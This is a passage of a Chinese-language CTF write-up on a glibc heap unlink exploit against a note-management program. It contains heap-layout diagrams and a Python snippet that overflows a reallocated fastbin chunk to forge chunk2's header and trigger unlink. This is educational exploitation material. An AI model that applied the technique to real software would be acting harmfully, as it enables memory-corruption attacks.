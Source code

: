 ```
                                   |    unused       |
                                   +-----------------+
                                   |  prev_size=0x60 |
fake ptr[0] chunk's nextchunk----->+-----------------+
                                   |    64*'a'       |
                                   +-----------------+
                                   |    fakebk       |
                                   +-----------------+
                                   |    fakefd       |
                                   +-----------------+
                                   |    0x61         |  chunk 0
                                   +-----------------+
                                   |    'a *8        |
                 ptr[0]----------> +-----------------+
                                   |    size=0x91    |
                                   +-----------------+
                                   |    prev_size    |
                                   +-----------------+  low addr
                                           图1
```

#### 释放 chunk1-覆盖 chunk2-释放 chunk2

对应的代码如下

```python
# edit the chunk1 to overwrite the chunk2
deletenote(1)
content = 'a' * 16 + p64(0xa0) + p64(0x90)
newnote(0, content)
# delete note 2 to trigger the unlink
# after unlink, ptr[0] = ptr - 0x18
deletenote(2)
```

首先释放 chunk1，由于该chunk属于fastbin，所以下次在申请的时候仍然会申请到该chunk，同时由于上面所说的类型问题，我们可以读取任意字符，所以就可以覆盖chunk2，覆盖之后如图2所示。

```
                                   +-----------------+high addr
                                   |      ...        |
                                   +-----------------+
                                   |   '\x00'+'b'*7  |
                ptr[2]-----------> +-----------------+ chunk 2
                                   |    size=0x90    |
                                   +-----------------+
                                   |    0xa0         |
                                   +-----------------|------------
                                   |    'a'*8        |
                                   +-----------------+
                                   |    'a'*8        |
                 ptr[1]----------> +-----------------+ chunk 1
                                   |    size=0x20    |
                                   +-----------------+
                                   |    prevsize     |
                                   +-----------------|-------------
                                   |    unused       |
                                   +-----------------+
                                   |  prev_size=0x60 |
fake ptr[0] chunk's nextchunk----->+-----------------+
                                   |    64*'a'       |
                                   +-----------------+
                                   |    fakebk       |
                                   +-----------------+
                                   |    fakefd       |
```